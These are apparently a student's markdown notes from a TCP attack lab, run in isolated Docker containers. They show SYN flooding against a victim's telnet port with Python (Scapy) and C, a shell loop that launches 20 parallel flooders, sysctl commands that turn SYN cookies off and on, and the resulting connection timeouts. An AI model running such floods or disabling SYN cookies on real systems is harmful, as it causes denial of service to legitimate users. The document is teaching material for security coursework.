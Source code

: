 # TCP Attacks
### how to get iface
`ifconfig | grep '10.9.0' -B1 | head -1 | cut -f1 -d ':'`
## Containers setup
- run in each the following line replacing `role` with what the container is, just to recognize them easier from the prompt
  - ```echo 'PS1="role | $PS1"' >> ~/.bashrc```

---

# Task 1: SYN Flooding Attack
## 1.1 $-$ With python
### Notes
| desc | command |
| --- | --- |
| see queue size for connections | `sysctl net.ipv4.tcp_max_syn_backlog` |
| edit queue size | `sysctl -w net.ipv4.tcp_max_syn_backlog=80` |
| check usage of queue (look for SYN-RECV, number of half-opened connections) | `netstat -nat` |
| count opened connections | `netstat -tna \| grep SYN_RECV \| wc -l` |

### On SYN cookie countermeasue
enabled by default, we can change it:
```bash
$ sysctl -a | grep syncookies # Display the SYN cookie flag 
$ sysctl -w net.ipv4.tcp_syncookies=0 # turn off SYN cookie
$ sysctl -w net.ipv4.tcp_syncookies=1 # turn on SYN cookie
```

### Solving
- set IP destination and port (the victim machine and the tcp port on which it's listening, which we found with `netstat -nat`)
  ```python
  ip = IP(dst="10.9.0.5")
  tcp = TCP(dport=23, flags='S')
  ```
- launch the python script from the attacker and monitor the recv queue on the victim
  ```bash
  # Attacker
  python3 synflood.py
  # === 
  # Victim
  watch -n 0.5 netstat -nat
  ```
- working just this way we are still able to telnet to the victim machine
- but if we try to run 20 parallel instances of the python script we can already see that we have a much greater to delay to get our telnet connection accepted:
  ```bash
  # run 10 parallel instances of the program
  for i in {1..20}
  do 
    python3 synflood_draft.py & 
  done

  # kill all the flooding scripts' processes 
  kill -9 `ps aux | grep -i flood | awk '{print $2}' | paste -s`
  ```
- with 20 parallel processes we were able to flood the victim leading to telnet timeout:
  ```
  attacker | root@docker-desktop:/# telnet 10.9.0.5
  Trying 10.9.0.5...
  telnet: Unable to connect to remote host: Connection timed out
  ```

---

## 1.2 $-$ with C
- Once compiled we can execute the C version of the synflood program, we can immediately notice, by monitoring the queue on the victim side as we did earlier, that the rate of which new connections are opened is much bigger.
- Also we can see that just 1 instance of this program is enough to flood the victim in a way that we cannot even open a telnet connection.

---

## 1.3 $-$ Enable the SYN Cookie Countermeasure
- with the countermeasure enabled we can immediately connect via telnet even with the flooding programs running. Thus the protection works very well.

---

